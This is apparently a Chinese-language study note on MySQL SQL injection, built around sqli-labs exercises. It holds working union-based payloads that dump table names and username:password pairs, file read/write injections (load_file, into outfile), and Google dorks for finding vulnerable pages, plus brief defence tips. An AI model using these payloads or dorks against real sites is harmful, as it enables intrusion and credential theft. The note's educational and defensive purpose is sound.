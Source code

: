 ## SQL injection
![](../assets/img/sql-injection/20220804-161808.jpg)

（也可在用戶可輸入的地方，如form，加入非法SQL語句，從而進行非法SQL操作）

數據庫服務器層級關係：
服務器裡面
	多個數據庫
		多個數據表
			多個行和列
				*數據*

一層一層拿到最底層的數據

系統庫
	•	提供獲取數據庫元數據的方式
	•	猶如數據庫的身份證
	•	有4個：Information_schema, Performance_schema, mysql, sys

SQL語句回顧
查詢當前數據庫服務器所有的數據庫
show databases;
![](../assets/img/sql-injection/20220804-161808-1.jpg)
use information_schema;
show tables;
![](../assets/img/sql-injection/20220804-161808-2.jpg)
![](../assets/img/sql-injection/20220804-161808-3.jpg)

union 查詢
select * from t1 where is=-1 union select * from t1 where pass=111;
❗️即使前面查不到也不影響出現後面的結果
❗️前面與後面的語句return的column要一致

order by
用來查詢表的column數目
# 以第一個column作排序
select * from t1 order by 1
# 以第二個column作排序
select * from t1 order by 2
…
#如果打到5報錯
select * from t1 order by 5
❗️表示只有4個column

Information_schema庫
	⁃	是信息數據庫
	⁃	Web滲透過程中作用很大
	⁃	❗️schemata表、tables表、columns表
![](../assets/img/sql-injection/20220804-161808-4.jpg)
use information_schema;
select * from SCHEMATA;
![](../assets/img/sql-injection/20220804-161808-5.jpg)
select table_name from TABLES;
![](../assets/img/sql-injection/20220804-161808-6.jpg)
select column_name from COLUMNS;

![](../assets/img/sql-injection/20220804-161808-7.jpg)
![](../assets/img/sql-injection/20220804-161808-8.jpg)

SQL注入
數據庫類型：
	1.	MySQL
	2.	MSSQL
	3.	Oracle
	4.	Access
	5.	其他
前端頁面提交方式：
	1.	GET
	2.	POST
	3.	COOKIE
	4.	REQUEST
	5.	HTTP header
	6.	其他
數據類型：
	1.	數字型
	2.	字符型
	3.	其他
查詢方法：
	1.	select
	2.	insert
	3.	delete
	4.	update
	5.	order by

瀏覽器數據提交
Get: 利用url, 速度快, 不敏感的數據
 (IE數據長度限制2083bits)
Post: 利用server, 更安全 數據量更大

手工注入：
	1.	❗️判斷有無注入點 （數字型方法如下）
	•	?id=1 and 1=1
	⁃	數據正常顯示 有注入點
	•	?id=1 and 1=2
	⁃	報錯 有注入點, 沒報錯 沒注入點
	2.	猜解列名數量 order by
	•	order by 1
	•	order by 2
	•	order by 3
	•	order by 4 (error)
	•	總共有3 columns
	3.	報錯，判斷回顯點 union
	•	?id=-1 union select 1,2,3
	![](../assets/img/sql-injection/20220804-161808-9.jpg)
	4.	信息收集
	‼️數據庫版本 version()
	高版本：5.0以上 有系統庫 information_schema
	低版本：5.0以下

‼️當前數據庫名 database()

	5.	使用對應SQL進行注入
在url填寫： ‼️無需分號

查詢當前數據庫內的table名
?id=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()
![](../assets/img/sql-injection/20220804-161808-10.jpg)
可見有‼️users這個table

查詢users的column名
?id=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name=0x7573657273
‼️分號裡面用0x加16進制 (users)
‼️=符號前後沒有空格
![](../assets/img/sql-injection/20220804-161808-11.jpg)

查詢users表內數據
?id=-1 union select 1,(select group_concat(username,0x3a,password) from users),3
❕0x3a是冒號
![](../assets/img/sql-injection/20220804-161808-12.jpg)

SQL注入之高權限注入
最高權限：root
多個網站共享一個database server
![](../assets/img/sql-injection/20220804-161808-13.jpg)
假如A出現漏洞，可以利用它去訪問在同一個伺服器上的數據庫B（前提是要有高權限)

![](../assets/img/sql-injection/20220804-161808-14.jpg)

‼️顯示當前用戶
?id=-1 union select 1,user(),3
用戶root@localhost

MySQL權限
mysql中存在4个控制權限的表
分别為user表，db表，tables_priv表，columns_priv表

user: 記錄user權限
db: 記錄對db的操作權限
tables_priv: 記錄對表的操作權限
columns_priv: 記錄對column的操作權限

最高權限的是user表

mysql權限表的驗證過程為
	先從user表中的Host,User,Password這3個字段中判斷連接的ip、用戶名、密碼是否存在，存在則通過驗證。
	通過身份認證後，進行權限分配，
	按照user，db，tables_priv，columns_priv的順序進行驗證。
	即先檢查全局權限表user，如果user中對應的權限為Y，則此用戶對所有數據庫的權限都為Y，
	將不再檢查db, tables_priv, columns_priv；如果為N，則到db表中檢查此用戶對應的具體數據庫，
	並得到db中為Y的權限；如果db中為N，則檢查tables_priv中此數據庫對應的具體表，取得表中的權限Y，以此類推。

查看mysql 有哪些用户
mysql> select user,host from mysql.user;

查看用户對應權限
select * from user where user='root' and host='localhost'\G; 
所有權限都是Y ，就是甚麼權限都有

\G代表將row垂直表示

創建 mysql 用戶
 有兩種方式創建MySQL授權用戶
1️⃣執行create user/grant命令（推薦方式）
 CREATE USER 'user'@'localhost' IDENTIFIED BY 'password';
2️⃣通過insert語句直接操作MySQL系統權限表
❗️新創建用戶沒有任何權限
💡進入root帳號給予user權限
	⁃	GRANT ALL PRIVILEGES ON *.* TO 'user'@'localhost' WITH GRANT OPTION;

![](../assets/img/sql-injection/20220804-161808-15.jpg)

文件讀寫注入
高版本的MYSQL添加了一個新的特性secure_file_priv，該選項限制了mysql導出文件的權限

可在以下文件貼上secure_file_priv=‘’
❗️默認沒有secure_file_priv
❗️phpstudy重啟連接才會生效

Win my.ini
![](../assets/img/sql-injection/20220804-161808-16.jpg)
Linux my.cnf
![](../assets/img/sql-injection/20220804-161808-17.jpg)

cmd mysql> show global variables like ‘%secure%’
設定前
![](../assets/img/sql-injection/20220804-161808-18.jpg)
設定後
![](../assets/img/sql-injection/20220804-161808-19.jpg)


代表讀寫無限制 secure_file_priv=
代表不能進行讀寫secure_file_priv=NULL

設定後可以讀取文檔
select load_file('C:/phpstudy_pro/Extensions/MySQL5.7.26/my.ini');
❗️斜桿，單引號或使用0x16進制
![](../assets/img/sql-injection/20220804-161808-20.jpg)

‼️難點在於獲取文件路徑
常見路徑
![](../assets/img/sql-injection/20220804-161808-21.jpg)

路徑獲取方式：
報錯
在google搜尋inurl:edu.mo warning
![](../assets/img/sql-injection/20220804-161808-22.jpg)
遺漏文件 可以看到php配置
在google搜尋inurl:phpinfo.php
![](../assets/img/sql-injection/20220804-161808-23.jpg)

SQL文件注入
?id=-1 union select 'hack','your','brain' into outfile 'c:/yo.txt'--+
‼️--+用作注釋之後sql字段

SQL基礎防禦
1️⃣魔術引號 或 addslashes()
	⁃	在單引號 雙引號 反斜線 與 NUL等加上反斜號，使SQL注入無效
	⁃	在❗️php.ini設定magic_quotes_gpc =on
	⁃	缺點：或會影響開發

2️⃣is_int($id)
	⁃	在後端程式加上檢查是否integer語法
	⁃	防止注入string

3️⃣關鍵字過濾
	⁃	利用str_replace()將select replace掉

4️⃣WAF軟件防護

SQL注入之數據類型
	1.	數字型數據
	•	?id=1 and 1=1
	⁃	數據正常顯示 有注入點
	•	?id=1 and 1=2
	⁃	報錯 有注入點, 沒報錯 沒注入點
	![](../assets/img/sql-injection/20220804-161809.jpg)

	2.	字符型數據
![](../assets/img/sql-injection/20220804-161809-1.jpg)
id被代入為'1 and 1=2'，SQL會過濾1之後的字符，因此會正常顯示id=1的數據不會報錯，無法判斷是否有注入點
‼️字符型判斷方法：
?id=1' 加入單/雙引號，報錯 有注入點

💡google搜尋inurl: php?id=

	3.	搜索型數據
like 模糊查詢
% % 通配符
![](../assets/img/sql-injection/20220804-161809-2.jpg)
‼️方法：
?username=y%’ or 1=1#
![](../assets/img/sql-injection/20220804-161809-3.jpg)
💡or 1=1的功效：顯示所有結果

	4.	其他型數據
有其他閉合符號 ‘ “ ) } %

SQL注入之數據提交方式
	1.	Get方式注入
get注入方式比較常見，主要是通過url中傳輸數據到後台，帶入到數據庫中去執行，可利用聯合注入方式直接注入
場景
	⁃	數據不敏感
	⁃	安全性不高
	⁃	長度有限2kb
	⁃	速度非常快

	2.	Post方注入 (sqli-labs Less-11)
利用BurpSuite抓包進行重放修改內容進行，和get差別是需要借助抓包工具進行測試，返回結果主要為代碼，也可轉化為網頁顯示
場景
	⁃	安全性高
	⁃	長度不限
	⁃	速度不快

![](../assets/img/sql-injection/20220804-161809-4.jpg)
抓包工具可以顯示post的parameter

	3.	Cookie提交 (sqli-labs Less-20)
在php中獲取cookie值
$c=$_COOKIE['s'];

好處：能繞過POST的check_input

利用Burp Suite修改header值，在此進行SQL injection
![](../assets/img/sql-injection/20220804-161809-5.jpg)
在header中加入Cookie: 參數=2222

Google chrome的開發人員工作也能查詢cookie值
![](../assets/img/sql-injection/20220804-161809-6.jpg)

	4.	Request式注入
![](../assets/img/sql-injection/20220804-161809-7.jpg)

Server函數
利用Server function獲取多項訊息
![](../assets/img/sql-injection/20220804-161809-8.jpg)